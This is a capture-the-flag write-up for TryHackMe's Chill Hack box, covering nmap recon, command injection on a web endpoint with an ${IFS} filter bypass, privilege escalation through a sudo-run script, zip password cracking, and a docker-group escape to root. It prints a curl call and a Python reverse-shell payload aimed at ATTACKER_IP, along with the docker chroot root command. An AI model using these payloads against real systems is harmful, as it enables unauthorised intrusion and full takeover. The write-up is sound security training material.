




# Summary

This is [Chill Hack](https://tryhackme.com/room/chillhack) box from TryHackMe.
#### TODO: main points

# Recon


## Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.79.146
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09f95db918d0b23a822d6e768cc20144 (RSA)
|   256 1bcf3a498b1b20b02c6aa551a88f1e62 (ECDSA)
|_  256 3005cc52c66f6504860f7241c8a439cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So there is **ftp**, **ssh** and **http**.

## Website 

Dirb was able to find `/secret/` directory which looked like being able to execute commands sent via POST request:\

\
Request:

> POST /secret/ HTTP/1.1 \
> Host: 10.10.97.198 \
> [...]\
\
> **command=pwd**

Response:

> HTTP/1.1 200 OK \
> [...]\
> **/var/www/html/secret**\
> [...]

That already allows RCE as www-data user:
\
However there is one more trick needed in order to easily execute commands.
Attacker needs to use `${IFS}` instead of spaces/plus signs as they're not treated properly by server.\
So example payload would look like below:

```
command=curl${IFS}http%3a//ATTACKER_IP%3a9999
```

And in order to create shell, the payload looked like that: &tag&
```
command=python3${IFS}-c${IFS}'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

## FTP

Attacker can also use anonymous login to get to ftp and find a `note.txt` which contains the following:

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
From it, it's useful to remember two potential usernames: **Anurodh** and **Apaar**

# Privesc

## www-data to Apaar

After running `sudo -l`, it turns out that there is a `/home/apaar/.helpline.sh` script shich can be run as `apaar` user without providing password.
So after running `sudo -u apaar /home/apaar/.helpline.sh`, the script is ran as `apaar` user.
The script is vulnerable to `command injection`, so attacker can now execute anny command as `apaar`.
After providing `/bin/bash` as requested message, attacker has working shell:



## Apaar to Anurodh

In `/var/www/files/index.php` there are leaked mysql db credentials (the hashes require cracking), however they don't seem to be working.

After browsing some more files, i decided to take a look at `/var/www/files/images`, especially the .jpeg one.
It turned out that steghide is able to extract some archive from it, but it needs password in order to be opened.
Luckily, this password can be easily cracked.

Commands used:
```
zip2john backup.zip > john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Cracking doesn't take long and after unzipping the archive, attacker can read source_code.php file.
Inside file, there is a hardcoded string which is password in base64.
After decoding the string and checking on ssh, it turns out that it's anurodh's password.

## Anurodh to root

After running `id` command as Anurodh it turns out, that this user is in `docker` group.
GTFOBins presents some privesc techniques using docker.

Running following command spawns shell as root:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


